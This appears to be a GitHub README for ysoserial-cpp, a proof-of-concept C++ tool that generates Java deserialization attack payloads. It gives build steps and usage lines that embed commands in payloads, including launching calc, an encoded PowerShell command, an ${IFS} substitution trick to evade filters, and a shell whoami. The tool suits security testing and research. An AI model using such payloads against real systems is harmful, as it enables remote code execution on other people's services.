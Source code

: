 ```
                                   ▄█    ▄████████ ███▄▄▄▄   ███▄▄▄▄   ▄██   ▄    ▄█          ▄████████ ▀█████████▄  
                                  ███   ███    ███ ███▀▀▀██▄ ███▀▀▀██▄ ███   ██▄ ███         ███    ███   ███    ███ 
                                  ███   ███    █▀  ███   ███ ███   ███ ███▄▄▄███ ███         ███    ███   ███    ███ 
                                  ███  ▄███▄▄▄     ███   ███ ███   ███ ▀▀▀▀▀▀███ ███         ███    ███  ▄███▄▄▄██▀  
                                  ███ ▀▀███▀▀▀     ███   ███ ███   ███ ▄██   ███ ███       ▀███████████ ▀▀███▀▀▀██▄  
                                  ███   ███    █▄  ███   ███ ███   ███ ███   ███ ███         ███    ███   ███    ██▄ 
                                  ███   ███    ███ ███   ███ ███   ███ ███   ███ ███▌    ▄   ███    ███   ███    ███ 
                              █▄ ▄███   ██████████  ▀█   █▀   ▀█   █▀   ▀█████▀  █████▄▄██   ███    █▀  ▄█████████▀  
                              ▀▀▀▀▀▀                                             ▀                                   
```



# ysoserial-cpp


![image](https://github.com/user-attachments/assets/da6827fc-b24f-4b6d-8faa-fc99d5a233e5)




## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
```
or

```
mkdir build
cd build
cmake ..
make
```

or

```
make
```


### Payload inject execution commands abusing serialization

```
./ysoserial-cpp templates "cmd /c calc"
```

### Encoding

```
./ysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./ysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "ysoserial-cpp.cpp"
```
  ysoserial.cpp   # ysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           




